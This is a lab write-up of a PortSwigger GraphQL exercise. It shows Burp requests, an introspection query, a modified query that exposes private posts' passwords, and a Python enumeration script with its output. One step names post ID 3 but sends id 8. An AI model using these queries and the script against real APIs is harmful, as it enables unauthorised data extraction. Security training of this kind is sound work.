






# Accessing private GraphQL posts

The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password.

---

## 1. Detection

- Accessed the lab and saw multiple blog posts listed on the home page.



- Clicked on one of the posts, which navigated to `/post?postId=1`.
- Had BurpSuite configured and scoped to `web-security-academy.net`, listening for HTTPS traffic.
- Under `Proxy > HTTP History`, found multiple `POST /graphql/v1` requests being fired as the blog page loaded.



- Sent one of the `POST /graphql/v1` requests to Repeater to inspect and tamper with it. The base request/response looked like this:

```http
POST /graphql/v1 HTTP/2
Host: 0ad400b10429631c809b80c200d500a2.web-security-academy.net
Cookie: session=OkZYy20dzCLMPPS5e5DUPDy4i8fnuqaZ
Content-Length: 249
Sec-Ch-Ua-Platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Accept: application/json
Sec-Ch-Ua: "Google Chrome";v="149", "Chromium";v="149", "Not)A;Brand";v="24"
Content-Type: application/json
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
Origin: https://0ad400b10429631c809b80c200d500a2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad400b10429631c809b80c200d500a2.web-security-academy.net/post?postId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-IN,en-GB;q=0.9,en-US;q=0.8,en;q=0.7
```

```json
{
    "data": {
        "getBlogPost": {
            "image": "/image/blog/posts/47.jpg",
            "title": "Coping with Hangovers",
            "author": "Andy Trick",
            "date": "2026-06-09T21:07:58.078Z",
            "paragraphs": [
                "They say certain things get better with age, alas, not hangovers..."
            ]
        }
    }
}
```



---

## 2. Probing the GraphQL Schema

- Tested whether GraphQL introspection was enabled by sending a standard introspection query:

```json
{"query": "query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

- Introspection was **enabled**, and the response leaked the full schema. The `BlogPost` object type included these fields:

```json
{
  "kind": "OBJECT",
  "name": "BlogPost",
  "fields": [
    { "name": "id", "type": { "ofType": { "name": "Int" } } },
    { "name": "image", "type": { "ofType": { "name": "String" } } },
    { "name": "title", "type": { "ofType": { "name": "String" } } },
    { "name": "author", "type": { "ofType": { "name": "String" } } },
    { "name": "date", "type": { "ofType": { "name": "Timestamp" } } },
    { "name": "summary", "type": { "ofType": { "name": "String" } } },
    { "name": "paragraphs", "type": { "ofType": { "ofType": { "ofType": { "name": "String" } } } } },
    { "name": "isPrivate", "type": { "ofType": { "name": "Boolean" } } },
    { "name": "postPassword", "type": { "name": "String" } }
  ]
}
```

- The schema also revealed the available top-level queries:

```json
{
  "kind": "OBJECT",
  "name": "query",
  "fields": [
    {
      "name": "getBlogPost",
      "args": [{ "name": "id", "type": { "ofType": { "name": "Int" } } }],
      "type": { "name": "BlogPost" }
    },
    {
      "name": "getAllBlogPosts",
      "type": { "ofType": { "ofType": { "name": "BlogPost" } } }
    }
  ]
}
```



- The two most interesting fields on `BlogPost` were **`isPrivate`** and **`postPassword`** — neither of which appear in the normal `getBlogPost` query used by the front-end. Since GraphQL doesn't restrict which fields a client can request as long as the type exposes them, these could potentially be requested directly even though the UI never asks for them.

---

## 3. Requesting the Hidden Fields

- Took the original `getBlogPost` query used by the application:

```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":3}}
```

- Added `isPrivate` and `postPassword` into the field selection:

```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            isPrivate\n            postPassword\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":8}}
```

- Sent this modified query for post ID `3` and got back:

```json
{
    "data": {
        "getBlogPost": {
            "image": "/image/blog/posts/8.jpg",
            "title": "Grandma's on the net",
            "author": "Aima Richman",
            "isPrivate": true,
            "postPassword": "asf1c3acutnmswhe1y132a42xhm3dbgn",
            "date": "2026-05-31T16:17:20.748Z",
            "paragraphs": ["..."]
        }
    }
}
```



> **Why this works:** The GraphQL API enforces access control on the *query* (e.g., hiding the private post from `getAllBlogPosts` or from `/post?postId=` rendering), but not on the *fields* of the returned object type. Since `isPrivate` and `postPassword` exist on the `BlogPost` type and the API doesn't strip them server-side based on authorization, simply asking for them in the query returns the data — a classic excessive data exposure / broken object-level field authorization issue in GraphQL.

---

## 4. Automating the Search

- To avoid manually testing every post ID, wrote a small Python script that loops through post IDs, cross-checks the REST endpoint (`/post?postId=`) returning a `404` (indicating the post is hidden from normal browsing) against the GraphQL response's `isPrivate` flag, and prints the password once a match is found:

```python
import requests

# main target url
try:
    domain = input("Enter your target url: ").strip() or None
except KeyboardInterrupt:
    print("[!] Bye brother..")
    import sys; sys.exit(1)

if not domain:
    print("[x] Please enter domain.")
    import sys; sys.exit(1)

chck = requests.get(url=domain).status_code

if chck != 200:
    print("[x] Please check if the target is up and running.")
    print(f"[!] Status code: {chck}")
    import sys; sys.exit(1)

# we are good to go ahead.
# now, i'll loop from 1 to 9 to check which posts are accessible via '/post?postId='
# empty list which tracks which posts response returned by server as status code "404" (means private..)
sus_posts = []
for i in range(1,10):
    # print(i)
    # add 5 seconds timeout too
    handle = requests.get(url=f"{domain}/post?postId={i}", timeout=5)
    # this is the default graphql query.
    handle2 = requests.post(url=f"{domain}/graphql/v1", json={
        "query": """
        query getBlogPost($id: Int!) {
            getBlogPost(id: $id) {
                image
                title
                author
                date
                paragraphs
                isPrivate
                postPassword
            }
        }
        """,
        "operationName": "getBlogPost",
        "variables": {"id": i}
    }, timeout=5).json()
    # added and for .text check just for double confirmation !!!
    isPrivate1 = True if (handle.status_code == 404 and handle.text == '"Not Found"') else False
    # also check if the graphql query returns isPriate as True
    post = handle2.get("data", {}).get("getBlogPost") if isinstance(handle2, dict) else None
    isPrivate2 = bool(post and post.get("isPrivate") is True)
    # print(handle2['data']['getBlogPost'])
    # if
    if isPrivate1 and isPrivate2:
        # sus_posts.append(i)
        print(f"Post ID: {i}")
        print(f"Visibility Status: {("Private" if (isPrivate1 and isPrivate2) else "Public")}")
        print(f"Password: {handle2['data']['getBlogPost']['postPassword']}")
        print(f"Submit and solve the lab script kiddie ;)")
        break


# print(sus_posts)

# first, loop through 0 to 10 posts and check which one exists and which don't
```

- Ran the script against the lab URL:

```
C:\Users\redacted\Documents\PortSwiggerLabs\graphql\pocs>python3 lab-1.py
Enter your target url: https://redacted.web-security-academy.net/
Post ID: 3
Visibility Status: Private
Password: asf1c3acutnmswhe1y132a42xhm3dbgn
Submit and solve the lab script kiddie ;)
```



---

## 5. Solve the Challenge

- Tested post IDs 1 through 9. Post ID `3` was confirmed `isPrivate: true` and leaked the password: `asf1c3acutnmswhe1y132a42xhm3dbgn`.
- Submitted the password on the hidden post's page. Lab solved.